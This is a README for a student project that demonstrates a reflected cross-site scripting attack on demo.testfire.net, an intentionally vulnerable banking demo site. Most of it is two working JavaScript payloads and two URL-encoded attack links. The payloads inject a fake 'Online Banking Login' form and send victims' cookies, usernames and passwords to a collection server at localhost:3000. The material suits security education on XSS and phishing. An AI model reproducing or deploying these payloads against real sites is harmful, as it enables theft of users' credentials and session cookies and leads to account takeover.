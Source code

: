 # About
Fake Login form using cross site scripting.
This is done on a website which is made intentionally vulnerable.
https://demo.testfire.net/<br>
**This is only for learning purposes.**


# Execution
## Note:
Below is the script, execute this on any input form eg (Search, feedback) of the given website.
You must have local server setup, here it is node server localhost:3000. code is uploaded clone it and run on your system.

## Get output on server console
```javascript
<form action method name="login" id="login"><table><tbody><tr><td>Username:</td><td><input type="text" id="uid" name="uid" value="" style="width: 150px;"></td><td></td></tr><tr><td>Password:</td><td><input type="password" id="passw" name="passw" style="width: 150px;"></td></tr><tr><td></td><td><input type="button" name="btnSubmit" value="Login" onclick="return (SubmitForm());"></td></tr></tbody></table></form>
<script type="text/javascript">
    function SubmitForm()
    {
            document.forms['login'].action='doLogin';
            document.forms["login"].method = "post";
            document.forms["login"].target = "_self";
            document.forms["login"].submit();
            new Image().src="http://localhost:3000/?"+document.cookie+'&UserName='+document.forms["login"].uid.value+'&Password='+document.forms["login"].passw.value;
            return (true);
    }
    document.getElementsByClassName("fl")[0].children[0].textContent = "Online Banking Login";
    document.getElementsByClassName("fl")[0].children[1].textContent = "";
</script>
```
## Direct Link to get fake form 
<a href="https://demo.testfire.net/search.jsp?query=%3Cform+action+method+name%3D%22login%22+id%3D%22login%22%3E%3Ctable%3E%3Ctbody%3E%3Ctr%3E%3Ctd%3EUsername%3A%3C%2Ftd%3E%3Ctd%3E%3Cinput+type%3D%22text%22+id%3D%22uid%22+name%3D%22uid%22+value%3D%22%22+style%3D%22width%3A+150px%3B%22%3E%3C%2Ftd%3E%3Ctd%3E%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd%3EPassword%3A%3C%2Ftd%3E%3Ctd%3E%3Cinput+type%3D%22password%22+id%3D%22passw%22+name%3D%22passw%22+style%3D%22width%3A+150px%3B%22%3E%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd%3E%3C%2Ftd%3E%3Ctd%3E%3Cinput+type%3D%22button%22+name%3D%22btnSubmit%22+value%3D%22Login%22+onclick%3D%22return+%28SubmitForm%28%29%29%3B%22%3E%3C%2Ftd%3E%3C%2Ftr%3E%3C%2Ftbody%3E%3C%2Ftable%3E%3C%2Fform%3E+%3Cscript+type%3D%22text%2Fjavascript%22%3E+++++function+SubmitForm%28%29+++++%7B+++++++++++++document.forms%5B%27login%27%5D.action%3D%27doLogin%27%3B+++++++++++++document.forms%5B%22login%22%5D.method+%3D+%22post%22%3B+++++++++++++document.forms%5B%22login%22%5D.target+%3D+%22_self%22%3B+++++++++++++document.forms%5B%22login%22%5D.submit%28%29%3B+++++++++++++new+Image%28%29.src%3D%22http%3A%2F%2Flocalhost%3A3000%2F%3F%22%2Bdocument.cookie%2B%27%26UserName%3D%27%2Bdocument.forms%5B%22login%22%5D.uid.value%2B%27%26Password%3D%27%2Bdocument.forms%5B%22login%22%5D.passw.value%3B+++++++++++++return+%28true%29%3B+++++%7D+++++document.getElementsByClassName%28%22fl%22%29%5B0%5D.children%5B0%5D.textContent+%3D+%22Online+Banking+Login%22%3B+++++document.getElementsByClassName%28%22fl%22%29%5B0%5D.children%5B1%5D.textContent+%3D+%22%22%3B+%3C%2Fscript%3E" target="_blank">Click me to fake login</a> (<i>Run this on firefox</i>)

## Server request with UI output
```javascript
<form action method name="login" id="login"><table><tbody><tr><td>Username:</td><td><input type="text" id="uid" name="uid" value="" style="width: 150px;"></td><td></td></tr><tr><td>Password:</td><td><input type="password" id="passw" name="passw" style="width: 150px;"></td></tr><tr><td></td><td><input type="button" name="btnSubmit" value="Login" onclick="return (SubmitForm());"></td></tr></tbody></table></form>
<script type="text/javascript">
    function SubmitForm()
    {
            document.forms['login'].action='doLogin';
            document.forms["login"].method = "post";
            document.forms["login"].target = "_self";
            document.forms["login"].submit();

            document.forms["login"].action = "http://localhost:3000/";
            new Image().src="http://localhost:3000/?"+document.cookie;
            document.forms["login"].method = "get";
            document.forms["login"].target = "http://localhost:3000/";
            document.forms["login"].submit();
            return (true);
    }
    document.getElementsByClassName("fl")[0].children[0].textContent = "Online Banking Login";
    document.getElementsByClassName("fl")[0].children[1].textContent = "";
</script>
```
## Below is the link prepared from the above script.

<a href="https://demo.testfire.net/search.jsp?query=%3Cform+action+method+name%3D%22login%22+id%3D%22login%22%3E%3Ctable%3E%3Ctbody%3E%3Ctr%3E%3Ctd%3EUsername%3A%3C%2Ftd%3E%3Ctd%3E%3Cinput+type%3D%22text%22+id%3D%22uid%22+name%3D%22uid%22+value%3D%22%22+style%3D%22width%3A+150px%3B%22%3E%3C%2Ftd%3E%3Ctd%3E%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd%3EPassword%3A%3C%2Ftd%3E%3Ctd%3E%3Cinput+type%3D%22password%22+id%3D%22passw%22+name%3D%22passw%22+style%3D%22width%3A+150px%3B%22%3E%3C%2Ftd%3E%3C%2Ftr%3E%3Ctr%3E%3Ctd%3E%3C%2Ftd%3E%3Ctd%3E%3Cinput+type%3D%22button%22+name%3D%22btnSubmit%22+value%3D%22Login%22+onclick%3D%22return+%28SubmitForm%28%29%29%3B%22%3E%3C%2Ftd%3E%3C%2Ftr%3E%3C%2Ftbody%3E%3C%2Ftable%3E%3C%2Fform%3E+%3Cscript+type%3D%22text%2Fjavascript%22%3E+++++function+SubmitForm%28%29+++++%7B+++++++++++++document.forms%5B%27login%27%5D.action%3D%27doLogin%27%3B+++++++++++++document.forms%5B%22login%22%5D.method+%3D+%22post%22%3B+++++++++++++document.forms%5B%22login%22%5D.target+%3D+%22_self%22%3B+++++++++++++document.forms%5B%22login%22%5D.submit%28%29%3B++++++++++++++document.forms%5B%22login%22%5D.action+%3D+%22http%3A%2F%2Flocalhost%3A3000%2F%22%3B+++++++++++++new+Image%28%29.src%3D%22http%3A%2F%2Flocalhost%3A3000%2F%3F%22%2Bdocument.cookie%3B+++++++++++++document.forms%5B%22login%22%5D.method+%3D+%22get%22%3B+++++++++++++document.forms%5B%22login%22%5D.target+%3D+%22http%3A%2F%2Flocalhost%3A3000%2F%22%3B+++++++++++++document.forms%5B%22login%22%5D.submit%28%29%3B+++++++++++++return+%28true%29%3B+++++%7D+++++document.getElementsByClassName%28%22fl%22%29%5B0%5D.children%5B0%5D.textContent+%3D+%22Online+Banking+Login%22%3B+++++document.getElementsByClassName%28%22fl%22%29%5B0%5D.children%5B1%5D.textContent+%3D+%22%22%3B+%3C%2Fscript%3E" target="_blank">Click me to fake login</a> (<i>Run this on firefox</i>)


## References
* https://pentest-tools.com/blog/xss-attacks-practical-scenarios/
* http://form.guide/web-form/submit-form-multiple-scripts.html

# Authors

Ashkan Es Haghi <br>
Alexander Grissinger <br>
Muddassir Hussain <br>

# Project Date
08.11.2019
